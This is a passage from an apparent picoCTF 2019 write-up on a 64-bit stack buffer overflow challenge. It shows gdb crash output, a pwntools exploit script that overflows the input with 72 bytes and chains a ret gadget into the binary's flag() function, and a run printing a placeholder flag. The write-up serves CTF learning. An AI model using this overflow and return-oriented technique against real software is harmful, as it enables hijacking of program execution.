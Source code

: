 

```
DISCLAIMER: I got a hint from my fellow teammates at Maple Bacon that this probably means we want to use [ROP Techniques](https://en.wikipedia.org/wiki/Return-oriented_programming)
```


What if we entered a valid address for the `DDDDEEEE`, and the address of the `flag()` function for `FFFFGGGG`. A return would probably be a good choice as it'll just jump to the next address.

```
(gdb) r < <(python -c 'print("A"*64)')
Starting program: /home/samson/vuln < <(python -c 'print("A"*64)')
Welcome to 64-bit. Can you match these numbers?

Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffe460 in ?? ()
1: x/i $pc
=> 0x7fffffffe460:      add    %ah,%ah
(gdb) info frame
Stack level 0, frame at 0x7fffffffe418:
 rip = 0x7fffffffe460; saved rip = 0x400680
 called by frame at 0x7fffffffe420
 Arglist at 0x7fffffffe408, args: 
 Locals at 0x7fffffffe408, Previous frame's sp is 0x7fffffffe418
 Saved registers:
  rip at 0x7fffffffe410
```

The saved `rip` is at `0x400680`. This isn't divisible by 16 either. Okay. I give up. Let's use `pwntools`.


`exploit.py`
```python
#!/usr/bin/env python
from __future__ import print_function
from pwn import *

p = process('./vuln')
binary_instructions = ELF('./vuln')
ret = binary_instructions.search(asm('ret')).next()
print(p.recvuntil('Welcome to 64-bit. Can you match these numbers?'))
p.sendline('A'*72+p64(ret)+ p64(binary_instructions.symbols['flag']))
print(p.recvall())
```

```bash
samson@pico-2019-shell1:~$ python exploit.py 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/samson/.pwntools-cache/update to 'never'.
[*] A newer version of pwntools is available on pypi (3.12.2 --> 4.0.0).
    Update with: $ pip install -U pwntools
[+] Starting local process './vuln': pid 2361969
[*] '/home/samson/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
Welcome to 64-bit. Can you match these numbers?
[+] Receiving all data: Done (29B)
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 2361969)

SAMCTF{NOT_THE_ACTUAL_FLAG}
```
